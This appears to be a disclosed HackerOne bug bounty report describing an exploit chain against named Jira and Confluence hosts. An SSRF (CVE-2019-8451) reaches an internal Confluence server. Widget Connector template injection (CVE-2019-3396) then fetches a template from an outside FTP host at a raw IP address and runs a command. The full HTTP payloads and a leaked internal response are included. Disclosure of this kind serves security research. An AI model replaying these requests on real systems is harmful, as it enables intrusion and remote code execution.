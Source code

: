 # 29

[\
\#713900](https://hackerone.com/reports/713900) Unauthenticated SSRF in jira.tochka.com leading to RCE in confluence.bank24.int
-------------------------------------------------------------------------------------------------------------------------------

* Asset: QIEWI
* Weakness: Code Injection
* Bounty: $1,000

An interesting vulnerabilities chain allows RCE.

Vul1 is an SSRF trigger by the CVE-2019-8451（[SSRF in the /plugins/servlet/gadgets/makeRequest resource - CVE-2019-8451](https://jira.atlassian.com/browse/JRASERVER-69793).）

PoC: [https://jira.tochka.com:443@example.com/](https://jira.tochka.com:443@example.com)

```http
POST /plugins/servlet/gadgets/makeRequest HTTP/1.1
Host: jira.tochka.com
User-Agent: curl/7.61.1
Accept: */*
X-Atlassian-Token: no-check
Content-Length: 53
Content-Type: application/x-www-form-urlencoded
Connection: close

url=https://jira.tochka.com:443@confluence.bank24.int
```

Get the response about confluence.bank24.int:

```http
throw 1; < don't be evil' >{"https://jira.tochka.com:443@confluence.bank24.int":{"rc":200,"headers":{},"body":"<!DOCTYPE html>\n<html>\n<head>\n                    <title>Рабочий стол - Confluence<\/title>\n    \n        \n\n                        \n    \n                        \n    \n\n    \n    <meta http-equiv=\"X-UA-Compatible\" content=\"IE=EDGE,chrome=IE7\">\n<meta charset=\"UTF-8\">\n<meta id=\"confluence-context-path\" name=\"confluence-context-path\" content=\"\">\n<meta id=\"confluence-base-url\" name=\"confluence-base-url\" content=\"https://confluence.bank24.int\">\n\n<meta id=\"atlassian-token\" name=\"atlassian-token\" content=\"f999fa99a5663c168e72b407eecdeec3695c70d0\">\n\n\n<script type=\"text/javascript\">\n        var contextPath = '';\n<\/script>\n\n    \n\n    <meta name=\"confluence-request-time\" content=\"1571051898165\">\n        \n    \n        \n            <meta name=\"ajs-discovered-plugin-features\" content=\"$discoveredList\">\n            <meta name=\"ajs-use-keyboard-shortcuts\" content=\"true\">\n            <meta name=\"ajs-keyboardshortcut-hash\" content=\"97637bc20dfc7a1f15684630bc99897\">\n            <meta id=\"team-calendars-has-jira-link\" content=\"true\">\n            <meta name=\"ajs-team-calendars-display-time-format\" content=\"displayTimeFormat24\">\n            <meta id=\"team-calendars-display-week-number\" content=\"false\">\n            <meta
```



Vul2 is another CVE-2019-3396, case by the Widget Connector

[https://confluence.bank24.int/rest/tinymce/1/macro/preview](https://confluence.bank24.int/rest/tinymce/1/macro/preview\)) can be accessed without authentification by design,  and attacker can set up an FTP server to make the RCE:

```http
POST /plugins/servlet/gadgets/makeRequest HTTP/1.1
Host: jira.tochka.com
User-Agent: curl/7.61.1
Accept: */*
X-Atlassian-Token: no-check
Content-Length: 322
Content-Type: application/x-www-form-urlencoded
Connection: close

url=https://jira.tochka.com:443@confluence.bank24.int/rest/tinymce/1/macro/preview&httpMethod=POST&headers=content-type%3Dapplication/json&postData={"contentId":"1","macro":{"body":"","params":{"url":"https://www.youtube.com/watch?v=y6sOtXOvchY","_template":"ftp://68.183.67.159/qwe2.txt","command":"id"},"name":"widget"}}
```

![SSRF](<../../../.gitbook/assets/image (9) (1).png>)



![RCE](<../../../.gitbook/assets/image (10).png>)



